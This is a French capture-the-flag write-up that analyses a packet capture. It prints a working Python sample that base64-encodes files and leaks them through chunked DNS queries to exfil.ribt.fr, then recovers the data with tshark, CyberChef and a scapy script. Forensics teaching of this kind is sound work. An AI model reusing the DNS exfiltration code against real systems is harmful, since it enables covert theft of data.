

En ouvrant la capture réseau, on aperçoit le téléchargement d'un fichier `malware .py` sur le site `ribt.fr`. Voici le contenu de ce fichier :

```py
import base64
import os
import socket

files = os.listdir('.')
for f in files:
    if 'flag' in f:
        with open(f, 'rb') as flag:
            data = flag.read()
            encoded = base64.urlsafe_b64encode(data).decode().rstrip("=")
            chunks = [encoded[i:i+63] for i in range(0, len(encoded), 63)]
            queries = [chunk + '.exfil.ribt.fr' for chunk in chunks]
            for i in range(len(queries)):
                try:
                    socket.gethostbyname(str(i)+"."+queries[i])
                except:
                    pass

```

Ce programme cherche dans le répertoire courant un fichier contenant "flag" dans son nom, l'encode en base64 et l'exfiltre petit à petit sous forme de requêtes DNS vers `exfil.ribt.fr`. Dans la capture réseau on voit en effet ces requêtes.

## Solution 1 : tshark + Cyberchef

On peut utiliser l'outil `tshark`, la version en ligne de commande de Wireshark, pour extraire les requêtes DNS :

```txt
$ tshark -r capture.pcapng -T fields -e dns.qry.name
ribt.fr
ribt.fr
ribt.fr
ribt.fr
[...]
0._9j_4AAQSkZJRgABAQEASABIAAD_4UEMRXhpZgAASUkqAAgAAAAGABoBBQABAAA.exfil.ribt.fr
0._9j_4AAQSkZJRgABAQEASABIAAD_4UEMRXhpZgAASUkqAAgAAAAGABoBBQABAAA.exfil.ribt.fr
0._9j_4AAQSkZJRgABAQEASABIAAD_4UEMRXhpZgAASUkqAAgAAAAGABoBBQABAAA.exfil.ribt.fr.home
0._9j_4AAQSkZJRgABAQEASABIAAD_4UEMRXhpZgAASUkqAAgAAAAGABoBBQABAAA.exfil.ribt.fr.home
1.AVgAAABsBBQABAAAAXgAAACgBAwABAAAAAgAAADEBAgANAAAAZgAAADIBAgAUAA.exfil.ribt.fr
1.AVgAAABsBBQABAAAAXgAAACgBAwABAAAAAgAAADEBAgANAAAAZgAAADIBAgAUAA.exfil.ribt.fr
1.AVgAAABsBBQABAAAAXgAAACgBAwABAAAAAgAAADEBAgANAAAAZgAAADIBAgAUAA.exfil.ribt.fr.home
1.AVgAAABsBBQABAAAAXgAAACgBAwABAAAAAgAAADEBAgANAAAAZgAAADIBAgAUAA.exfil.ribt.fr.home
2.AAdAAAAGmHBAABAAAAiAAAAJoAAABIAAAAAQAAAEgAAAABAAAAR0lNUCAyLjEwL.exfil.ribt.fr
2.AAdAAAAGmHBAABAAAAiAAAAJoAAABIAAAAAQAAAEgAAAABAAAAR0lNUCAyLjEwL.exfil.ribt.fr
[...]
```

Il y a une ligne par paquet donc le même domaine apparaît 2 fois (une pour la requête et une pour la réponse). On voit aussi des requêtes vers un domaine en `.home.` : c'est le comportement de la fonction `socket.gethostbyname` qui cherche le domaine sur le réseau local comme la 1ère requête n'a pas envoyée de réponse. On peut utiliser les filtres Wireshark pour n'avoir que ce qui nous intéresse :

```txt
$ tshark -r capture.pcapng -T fields -e dns.qry.name -Y "ip.dst == 8.8.8.8 && !(dns.qry.name contains home)" | head
ribt.fr
ribt.fr
0._9j_4AAQSkZJRgABAQEASABIAAD_4UEMRXhpZgAASUkqAAgAAAAGABoBBQABAAA.exfil.ribt.fr
1.AVgAAABsBBQABAAAAXgAAACgBAwABAAAAAgAAADEBAgANAAAAZgAAADIBAgAUAA.exfil.ribt.fr
2.AAdAAAAGmHBAABAAAAiAAAAJoAAABIAAAAAQAAAEgAAAABAAAAR0lNUCAyLjEwL.exfil.ribt.fr
3.jE0AAAyMDIzOjEwOjA4IDIxOjA5OjI3AAEAAaADAAEAAAABAAAAAAAAAAgAAAEE.exfil.ribt.fr
4.AAEAAAAAAQAAAQEEAAEAAAC-AAAAAgEDAAMAAAAAAQAAAwEDAAEAAAAGAAAABgE.exfil.ribt.fr
5.DAAEAAAAGAAAAFQEDAAEAAAADAAAAAQIEAAEAAAAGAQAAAgIEAAEAAAD9PwAAAA.exfil.ribt.fr
6.AAAAgACAAIAP_Y_-AAEEpGSUYAAQEAAAEAAQAA_9sAQwAIBgYHBgUIBwcHCQkIC.exfil.ribt.fr
7.gwUDQwLCwwZEhMPFB0aHx4dGhwcICQuJyAiLCMcHCg3KSwwMTQ0NB8nOT04Mjwu.exfil.ribt.fr
[...]
```

On redirige la sortie vers un fichier texte puis on peut copier coller le contenu dans [CyberChef](https://gchq.github.io/CyberChef/).

On peut par exemple faire la [recette suivante](https://gchq.github.io/CyberChef/#recipe=Remove_line_numbers()Find_/_Replace(%7B'option':'Simple%20string','string':'.exfil.ribt.fr'%7D,'',true,false,true,false)From_Base64('A-Za-z0-9-_',true,false)) :
- Remove line numbers.
- Find ".exfil.ribt.fr" replace by "".
- From base64, alphabet URL Safe.

En ajoutant un bloc "Detect File Type" on nous indique une image JPEG. On peut alors remplacer ce bloc par "Render Image" et le flag apparaît sous nos yeux :



## Solution 2 : script Python

Le script suivant permet de réaliser le même comportement que celui décrit précédemment :

```py
from scapy.all import *
import base64

b64 = ""

pcap_file = "capture.pcapng"
packets = rdpcap(pcap_file)

for packet in packets:
    if packet.haslayer(DNSQR) and packet[DNS].qr == 0: # si le paquet est une requête DNS
        dns_query = packet[DNSQR].qname.decode()
        if dns_query.endswith("exfil.ribt.fr."):
            b64 += dns_query.split('.')[1]

# le padding avec les "==" a été supprimé, on met le padding maximal pour être sûr de ne pas avoir d'erreur au décodage
b64 += "=="

with open("flag", "wb") as f:
    f.write(base64.urlsafe_b64decode(b64))

```

Un fichier `flag` sans extension est créé dans le répertoire courant. La commande `file` de Linux permet par exemple de l'identifier pour savoir que c'est un JPEG et permettre de le renommer pour l'ouvrir.